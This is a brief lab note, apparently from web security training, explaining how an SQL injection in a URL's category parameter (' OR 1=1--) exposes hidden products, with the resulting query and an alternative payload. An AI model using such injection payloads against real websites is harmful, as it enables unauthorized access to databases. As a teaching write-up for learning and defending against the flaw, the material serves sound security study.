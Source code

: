```yaml
---
title: 'Lab 1.2: Displaying Hidden Products'
updated: 2022-12-01T09:52:44.0000000+04:00
created: 2022-11-29T09:52:01.0000000+04:00
---
```


Lab 1.2: Displaying Hidden Products
Tuesday, November 29, 2022
9:52 AM
Following the Previous methods,

- The attacker can further inject an SQL query to display all products in any category, including categories they don't know about

1.  <u>Original URL</u>

<https://insecure-website.com/products?category=Gifts>

2.  <u>Modified URL:</u>

<https://insecure-website.com/products?category=Gifts'+OR+1=1>--

3.  <u>Modified URL Explained</u>;

- This results in the SQL query of:
- SELECT \* FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

4.  SQL Query used:

- ** **
') or '1'='1--